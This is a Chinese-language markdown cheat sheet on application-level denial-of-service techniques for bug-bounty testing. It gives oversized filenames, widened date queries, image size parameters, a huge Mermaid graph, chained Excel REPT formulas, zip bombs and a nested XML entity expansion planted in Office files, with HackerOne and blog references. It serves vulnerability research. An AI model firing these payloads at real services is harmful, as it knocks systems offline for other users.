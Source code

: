 ## 文件名 DoS

上传文件时, 文件名没有长度限制导致 DoS;

某些情况下上传处可能无法直接 DoS, 但是在 API 读取文件名时可能产生 DoS

---

Refrences

- [profile-picture name parameter with large value lead to DoS for other users and programs on the platform](https://hackerone.com/reports/764434)

## 时间查询 DoS

原本的查询范围是2020年1月1日到2024年1月1日,

可以抓包修改为1000年1月1日到9000年1月1日,造成 DoS.

## Image DoS

图片参数大小可控,导致DoS

```
图片 API 为类似的 URL 时
http://example.com/demo.php/?img=coca-cola.jpg
可修改参数值 (建议先使用一个较小的参数测试，避免服务器崩溃) 查看响应字节和时间是否变化
http://example.com/demo.php/?img=coca-cola.jpg&width=100&height=100
有时需要自己构造参数
&l=00
&w=100&h=100
&w=100&h=100&l=100
&length=100
&width=100&height=100
&width=100&height=100&length=100
(length往往代表图片验证码生成的字符数量)
&size=100
&margin=100
```

---

Refrences

- [新类型【漏洞】验证码大小可控导致的拒绝服务攻击漏洞](https://zhuanlan.zhihu.com/p/41800341)

## Markdown DoS

当使用 Markdown 渲染大量数据的 Mermaid 图表时会导致 DoS

````
```mermaid
graph LR
A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;

......

```
````

```mermaid
graph TD
A-->B-->A-->B-->A-->B-->A-->B-->A-->B-->A-->B-->A-->B-->A-->B-->A-->B
```

---

- [Uncontrolled Resource Consumption in any Markdown field using Mermaid](https://hackerone.com/reports/670572)

## 文件解析 DoS

通过使目标解析文件造成 DoS.

### 1. Excel

在 Excel 中有一个函数 `=REPT("1",99)` , 表示在一个单元格中写入 99 个 `1` ;

若是一个特别大的值, 如:  `=REPT("1",9999)` ,那么在 Office Excel 则不会解析, 而是返回一个值 `#VALUE!` ;

但是在线文档可能将文字全部解析并造成 DoS;

如果目标网站对 `=REPT("1",99)` 数量有限制, 可尝试引用单元格绕过:

```
=REPT("1",9)
=REPT(A1,9)
=REPT(A2,9)
=REPT(A3,9)
```

### 2. Zip

在线解压高压缩率的 zip 文件会造成 DoS, 若目标无法解压这个文件则不存在 DoS.

访问 [A better zip bomb](https://www.bamsoftware.com/hacks/zipbomb/) 得到 zip 文件.

### 3. XML

Word, Excel, PowerPoint 文件解压后存在 XML 文件, 压缩后可回复文档.

可利用 XML 的内部实体的循环引用造成 DoS

```
<!DOCTYPE w:t [
	<!ENTITY PoC "test">
	<!ENTITY PoC2 "&PoC;&PoC;&PoC;&PoC;&PoC;&PoC;">
	<!ENTITY PoC3 "&PoC2;&PoC2;&PoC2;&PoC2;&PoC2;&PoC2;">
]>
```

1. 在文档中写入 `Hello, World!` , 方便定位;

2. 使用解压工具打开文档;

3. 找到存在 `Hello, World!` 的 XML 文件;

   ```
   C:\Users\sec\Desktop\Microsoft Word 文档\word\document.xml
   C:\Users\sec\Desktop\Microsoft Excel 工作表\xl\sharedStrings.xml
   C:\Users\sec\Desktop\Microsoft PowerPoint 演示文稿\ppt\slides\slide1.xml
   ```

4. 在 XML 文件中添加内部实体引用;

   ```
   <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
   <!DOCTYPE w:t [
   	<!ENTITY PoC "test">
   	<!ENTITY PoC2 "&PoC;&PoC;&PoC;&PoC;&PoC;&PoC;">
   	<!ENTITY PoC3 "&PoC2;&PoC2;&PoC2;&PoC2;&PoC2;&PoC2;">
   ]>
   <w:document>
   	<w:t>Hello, World!&PoC3;</w:t>
   </w:document>
   ```

5. 保存后上传到在线文档解析则可能造成 DoS.

---

Refrences

- [企业src中dos漏洞的挖掘【小火炬公开课】](https://www.bilibili.com/video/BV1xYweeKELq/?spm_id_from=333.1387.favlist.content.click&vd_source=2dcc7806c9580af60063ca1edb63852d)
- [A better zip bomb](https://www.bamsoftware.com/hacks/zipbomb/)
- [XML 拒绝服务攻击和防御](https://learn.microsoft.com/zh-cn/archive/msdn-magazine/2009/november/xml-denial-of-service-attacks-and-defenses)

---

References

- [dos攻击漏洞思路小结](https://xz.aliyun.com/news/14695)